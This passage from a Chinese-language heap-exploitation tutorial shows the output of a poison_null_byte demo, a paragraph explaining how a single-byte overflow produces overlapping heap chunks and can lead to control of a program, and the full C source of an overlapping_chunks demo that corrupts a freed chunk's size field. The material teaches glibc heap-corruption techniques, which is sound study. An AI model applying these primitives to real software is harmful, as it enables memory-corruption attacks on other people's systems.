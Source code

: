 编译，并运行得到结果：
\begin{verbatim}
$ gcc -g poison_null_byte.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xabb010
'real' size of 'a': 0x18
b: 0xabb030
c: 0xabb140
b.size: 0x111 ((0x100 + 0x10) | prev_in_use)

After free(b), c.prev_size: 0x110
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

Pass the check: chunksize(P) == 0x100 == 0x100 == prev_size (next_chunk(P))
We malloc 'b1': 0xabb030
c.prev_size: 0x110
fake c.prev_size: 0x70

We malloc 'b2', our 'victim' chunk: 0xabb0c0
Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2': 0xabb030

b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
New b2 content:BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
\end{verbatim}

此技术的利用条件是某个由\verb+malloc +分配的内存区域存在单字节溢出，通过溢出下一个\verb+chunk +的\verb+size +字段，攻击者能够在堆中创造出重叠的内存块，从而达到改写其他数据的目的。再结合其他的利用方式，同样能够获得程序的控制权。

\subsection{overlapping\_chunks}

\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main() {
    intptr_t *p1,*p2,*p3,*p4;

    p1 = malloc(0x90 - 8);
    p2 = malloc(0x90 - 8);
    p3 = malloc(0x80 - 8);
    memset(p1, 'A', 0x90 - 8);
    memset(p2, 'A', 0x90 - 8);
    memset(p3, 'A', 0x80 - 8);
    fprintf(stderr, "Now we allocate 3 chunks on the heap\n");
    fprintf(stderr, "p1=%p\np2=%p\np3=%p\n\n", p1, p2, p3);

    free(p2);
    fprintf(stderr, "Freeing the chunk p2\n");

    int evil_chunk_size = 0x111;
    int evil_region_size = 0x110 - 8;
    *(p2-1) = evil_chunk_size; // Overwriting the "size" field of chunk p2
    fprintf(stderr, "Emulating an overflow that can overwrite the size of the chunk p2.\n\n");

    p4 = malloc(evil_region_size);
    fprintf(stderr, "p4: %p ~ %p\n", p4, p4+evil_region_size);
    fprintf(stderr, "p3: %p ~ %p\n", p3, p3+0x80);

    fprintf(stderr, "\nIf we memset(p4, 'B', 0xd0), we have:\n");
    memset(p4, 'B', 0xd0);
    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);

    fprintf(stderr, "\nIf we memset(p3, 'C', 0x50), we have:\n");
    memset(p3, 'C', 0x50);
    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);
}
\end{verbatim}


